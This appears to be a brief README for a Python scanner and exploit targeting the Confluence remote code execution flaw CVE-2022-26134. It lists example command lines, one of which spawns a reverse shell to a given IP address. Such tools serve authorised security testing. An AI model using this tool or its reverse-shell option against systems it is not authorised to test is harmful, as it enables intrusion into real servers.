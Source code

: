 ## Scan for ConfluenceRCE CVE-2022-26134
* Tested on win/nix, python 2.7 - 3.X
* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, make sure ports are open, port choosen in dialog when spawning)
* Thats all.

